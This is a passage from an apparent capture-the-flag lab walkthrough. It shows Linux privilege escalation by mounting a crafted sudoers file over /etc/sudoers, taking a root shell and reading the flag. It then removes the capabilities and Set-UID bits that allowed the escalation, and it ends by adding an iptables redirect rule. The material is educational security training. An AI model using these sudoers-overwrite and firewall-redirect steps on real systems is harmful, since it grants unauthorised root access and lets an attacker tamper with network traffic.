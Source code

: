 97. Confirm that the file is owned by `root`:

    ```shell
    ls -l /crew/sudoers
    ```

98. Mount the `/crew/sudoers` file onto `/etc/sudoers`:

    ```shell
    ./mount.py -s /crew/sudoers -t /etc/sudoers -f none
    ```

99. Now, try `sudo su -` again:

    ```shell
    sudo su -
    ```

100. List the `root` home directory:

        ```shell
        ls
        ```

101. Read the `FLAG.txt` file! You win!

        ```shell
        cat FLAG.txt
        ```

102. Let's fix the escalation path we came in on. First, remove `CAP_SYS_ADMIN` from the python binary:

        ```shell
        setcap -r /usr/bin/python3-9
        ```

103. Let's observe that the `CAP_NET_ADMIN` capability lets ordinary users modify the firewall - `iptables` was a multi-step symbolic link to `/usr/sbin/xtables-nft-multi`. This program didn't need to be Set-UID to let non-root users modify the firewall, so long as it had the `CAP_NET_ADMIN` capability. Just to be sure, let's remove Set-UID from the other related program, `/usr/sbin/xtables-legacy-multi`.

        ```shell
        chmod u-s /usr/sbin/xtables-legacy-multi
        ```

104. Next, switch to the `cypher` user:

        ```shell
        su - cypher
        ```

105. Now, add another firewall rule:

        ```shell
        /usr/sbin/iptables -t nat -I PREROUTING \
        -p tcp --dport 82 -j REDIRECT --to 9999
        ```
